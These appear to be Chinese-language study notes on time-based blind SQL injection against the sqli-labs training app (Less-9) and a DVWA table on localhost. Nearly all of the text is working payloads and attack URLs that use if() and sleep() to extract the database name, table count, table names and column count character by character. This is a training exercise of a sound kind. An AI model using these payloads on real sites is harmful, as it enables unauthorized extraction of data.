 ### 判断当前数据库名称

```sql
select if((select ord(mid(database(),1,1))=115),1,sleep(3))

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select ord(mid(database(),1,1))=115),1,sleep(3)) -- -
```

### 判断表个数

```sql
select table_name from information_schema.tables where table_schema=database()
select count(table_name) from information_schema.tables where table_schema=database()
select (select count(table_name) from information_schema.tables where table_schema=database())=4
select if((select (select count(table_name) from information_schema.tables where table_schema=database())=4),sleep(3),1)

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select (select count(table_name) from information_schema.tables where table_schema=database())=4),sleep(3),1) -- -
```

### 判断表长度

```sql
select if((select (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5),sleep(3),1)

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5),sleep(3),1) -- -
```

### 判断数据表

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 3,1
select substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1)
select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))
select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))=101
select if((select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))=101),1,sleep(3))

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))=101),1,sleep(3)) -- -
```

### 判断字段的个数

```sql
select '1' and if((select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8,1,sleep(5)) # 
```
